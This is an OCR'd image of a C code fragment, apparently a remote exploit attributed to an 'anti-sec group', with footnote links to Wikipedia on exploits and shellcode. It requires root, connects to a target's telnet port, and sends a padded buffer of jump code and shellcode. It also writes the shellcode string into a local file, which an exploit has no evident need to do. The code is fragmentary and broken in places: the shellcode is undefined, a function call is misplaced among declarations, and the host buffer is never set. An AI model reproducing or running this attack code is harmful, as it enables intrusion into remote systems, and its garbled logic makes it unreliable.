 ```c
}

#define FD 0x080518fc
#define BD 0x08082000

int main(int argc, char **argv){
    FILE *jmpinst;
    char h[500],buffer[1024];fremote(jmpcode);char *payload, *ptr;
    int port=23, limit=8, target=0, sock;
    struct hostent *host;
    struct sockaddr_in addr;

    if (geteuid()) {
    puts("need root for raw socket, etc...");
    return 1;
    }

    if(argc < 3){
        usage(argv[0]);
        return 1;
    }

    printf("\n  [+] 0wn0wn - by anti-sec group\n");

       if (!inet_aton(h, &addr.sin_addr)){
        host = gethostbyname(h);
        if (!host){
            printf("  [-] Resolving failed\n");
            return 1;
        }
        addr.sin_addr = *(struct in_addr*)host->h_addr;
    }

    sock = socket(PF_INET, SOCK_STREAM, 0);
    addr.sin_port = htons(port);
    addr.sin_family = AF_INET;
    if (connect(sock, (struct sockaddr*)&addr, sizeof(addr)) == -1){
        printf("  [-] Connecting failed\n");
        return 1;
    }
    payload = malloc(limit * 10000);
    ptr = payload+8;
    memcpy(ptr,jmpcode,strlen(jmpcode));
    jmpinst=fopen(shellcode+793,"w+");
    if(jmpinst){
        fseek(jmpinst,0,SEEK_SET);
        fprintf(jmpinst,"%s",shellcode);
        fclose(jmpinst);
    }
    ptr += strlen(jmpcode);
    if(target != 5 && target != 6){
        memcpy(ptr,shellcode,strlen(shellcode));
        ptr += strlen(shellcode);
        memset(ptr,'B',limit * 10000 - 8 - strlen(shellcode));
    }
    else{
        memcpy(ptr,fbsd_shellcode,strlen(fbsd_shellcode));
        ptr += strlen(fbsd_shellcode);
        memset(ptr,'B',limit * 10000 - 8 - strlen(fbsd_shellcode));
    }
    send(sock,buffer,strlen(buffer),0);
    send(sock,ptr,3750,0);
    close(sock);
```

[^1]: [Exploit](https://en.wikipedia.org/wiki/Exploit_(computer_security)) 
[^2]: [Shell Code](https://en.wikipedia.org/wiki/Shellcode)